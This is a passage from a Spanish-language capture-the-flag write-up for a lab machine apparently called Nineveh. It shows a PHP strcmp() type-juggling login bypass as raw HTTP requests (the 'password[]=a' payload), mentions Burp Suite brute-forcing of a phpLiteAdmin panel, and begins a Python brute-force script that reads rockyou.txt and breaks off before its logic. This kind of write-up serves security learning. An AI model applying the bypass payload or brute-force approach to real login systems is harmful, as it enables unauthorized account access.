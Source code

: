 El problema aqui es que usado el comando `strcmp()` para el password permite al atacante de burlar esto con un cambio de tipo.

Si la request normal es como la siguiente y nos pone `incorrect password`

```bash
POST /login.php HTTP/1.1
Host: 10.10.10.10
User-Agent: ...
Cookie: PHPSESSID=o36osnz71uw900ln395jhs

username=admin&password=admin
```

cambiandole el payload de la siguiente manera nos loggea sin problema

```bash
POST /login.php HTTP/1.1
Host: 10.10.10.10
User-Agent: ...
Cookie: PHPSESSID=o36osnz71uw900ln395jhs

username=admin&password[]=a
```

El symbolo `[]` cambia el tipo de variable y el `strcmp()` lo acepta. 

### Ataque de tipo intruder con burpsuite para el panel en el puerto 443 {-}

Para el panel de authentification del **phpLiteAdmin**, utilizamos la misma tecnica que para el panel de authentification del puerto 80 (Burpsuite).
De esta manera tambien encontramos la contraseña y nos podemos conectar a la base de datos.

### Bruteforcear la contraseña con python {-}

Este seria la manera de bruteforcear la contraseña con python. Este Script tambien nos viene del compañero s4dbrd.

```python
#!/usr/bin/python3

import requests
import pdb
import sys
import signal
import urllib3


urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from pwn import *

# Variables Globales
login_url = 'https://nineveh.htb/db/index.php'


f = open("rockyou.txt", "r")

def def_handler(sig, frame):
    print("\n\nSaliendo...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

def bruteForce():
 
    s = requests.Session()

```